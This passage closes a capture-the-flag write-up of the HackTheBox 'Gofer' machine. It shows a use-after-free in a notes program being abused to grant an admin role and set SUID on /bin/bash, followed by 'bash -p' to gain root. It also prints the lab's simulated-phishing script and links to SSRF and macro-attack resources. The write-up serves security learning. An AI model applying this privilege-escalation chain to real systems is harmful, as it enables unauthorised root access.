```bash
(remote) tbuckley@gofer.htb:/dev/shm$ /usr/local/bin/notes
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 1

Choose an username: randomUser

...snip...
========================================
3) Delete an user
...snip...

Your choice: 3

...snip...
========================================
4) Write a note
...snip...

Your choice: 4

Write your note:
000000000000000000000000admin

...snip...
========================================
2) Show user information
...snip...

Your choice: 2

Username: 000000000000000000000000admin
Role: admin

...snip...
========================================
8) Backup notes
...snip...

Your choice: 8

Access granted!

```

Now that I have executed the backup function, the malicious code was executed and `/bin/bash` has a SUID bit set.

```bash
(remote) tbuckley@gofer.htb:/dev/shm$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash

```

Since `/bin/bash` is owned by root and has the SUID bit set, I can execute bash in in privileged mode granting effective root privileges.

```bash
(remote) tbuckley@gofer.htb:/dev/shm$ bash -p
(remote) root@gofer.htb:/dev/shm# id
uid=1002(tbuckley) gid=1002(tbuckley) euid=0(root) egid=0(root) groups=0(root),1002(tbuckley),1004(dev)
```


**Pwned!!**
<!--  -->

## Beyond Root

I was curious how the phishing attempt was stimulated in this HackTheBox environment since there are no real users. The `mail.sh` script in the root directory helps shed a light on this.

- All URLs in the email sent to the user, `jhudson` are collected in the URLS variable
- For each URL the linked files are downloaded to `jhudson`'s download directory.
- Next the ownership is changed to `jhudson` and file permissions to "755", making them executable by `jhudson`.
- LibreOffice is executed in headless mode to open the downloaded files in view-only mode. This represents a scenario where a malicious macro could potentially be triggered.
- There's also a wait period of 3 seconds, which I am assuming is to mimic user interaction.

```bash
(remote) root@gofer.htb:/root/scripts# cat mail.sh
#!/bin/bash

USER="jhudson"
URLS=$(/usr/bin/grep -Eo 'http://[^ >]+' /var/mail/$USER)

/usr/bin/mkdir /home/$USER/Downloads

for u in $URLS
do
    echo $u;
    NAME=$(basename $u|cut -d '.' -f 1)
    EXT=$(basename $u|cut -d '.' -f 2)
    RANDOMNB=$(date +%s%N)
    FILENAME="$NAME$RANDOMNB.$EXT"
    timeout 10 wget -O "/home/$USER/Downloads/$FILENAME" $u
    /usr/bin/chown $USER:$USER /home/$USER/Downloads/$FILENAME
    /usr/bin/chmod 755 "/home/$USER/Downloads/$FILENAME"
    sleep 3
    /bin/su -c "cd /usr/bin; ./libreoffice -env:SingleAppInstance=false --norestore --view --headless --nologo --nolockcheck --eventtesting /home/$USER/Downloads/$FILENAME &" $USER
    sleep 3
    /usr/bin/killall oosplash
done

echo "" > /var/mail/$USER
rm -rf /home/$USER/Downloads/*
```


---

# Related Links

- [SSRF (Server Side Request Forgery) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher)
- [tarunkant/Gopherus: This tool generates gopher link for exploiting SSRF and gaining RCE in various servers](https://github.com/tarunkant/Gopherus)
- [Blog on Gopherus Tool](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)
- [Using Malicious LibreOffice Calc Macros to Target Linux](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)
- [Shell Function - LibreOffice Docs](https://help.libreoffice.org/6.1/he/text/sbasic/shared/03130500.html)
- [How to use shell from basic macro (solved) - English - Ask LibreOffice](https://ask.libreoffice.org/t/how-to-use-shell-from-basic-macro-solved/23590)
- [Dangling Pointer - SMASHING THE POINTER FOR FUN AND PROFIT](https://www.blackhat.com/presentations/bh-usa-07/Afek/Whitepaper/bh-usa-07-afek-WP.pdf)
- [Use-After-Use-After-Free: Exploit UAF by Generating Your Own whitepaper](https://www.blackhat.com/docs/eu-16/materials/eu-16-Wen-Use-After-Use-After-Free-Exploit-UAF-By-Generating-Your-Own-wp.pdf)
